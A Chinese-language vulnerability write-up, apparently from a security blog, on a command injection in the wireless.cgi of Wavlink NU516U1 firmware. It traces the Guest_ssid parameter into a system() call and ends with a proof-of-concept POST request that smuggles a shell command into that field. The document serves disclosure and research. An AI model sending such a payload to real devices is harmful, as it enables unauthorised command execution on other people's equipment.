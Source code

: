```yaml
---
title: wavlink-NU516-wireless
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/3/30 11:20:53 
---
```


# 漏洞概述

Wavlink是一家专注于网络设备和通信解决方案的公司，提供优质的路由器、扩展器和网络配件。其下的WAVLINK-NU516U1型号的固件，功能用于提供打印机服务器网卡，其管理后台存在命令注入漏洞，允许攻击者完成os命令执行。

固件下载地址：

https://docs.wavlink.xyz/Firmware/fm-516u1/

 

 

# 代码审计

对固件binwalk -Me [固件位置] 解包，找到wireless.cgi程序，使用ida打开

 

（逆向分析的过程涉及的伪代码比较长，这里只截取ida显示的关键片段）

 

在main（ida中显示为ftext）函数中，首先获取了用户提交的page参数值

![](/img/1.png)

将page参数值设置为GuestWifi，会跳转进入sub_4032E4函数

![](/img/2.png)

sub_4032E4函数内，获取了Guest_ssid参数值，该值可以post传参可控

![](img/3.png)

随后Guest_ssid参数值被传入sub_407504函数内

![](img/4.png)

在其中拼接给v8变量，交给system函数执行，产生了命令注入

![](img/5.png)

此处反编译代码中，system函数参数显示为空，但在汇编代码中仍然可以判断出其参数为v8

# POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

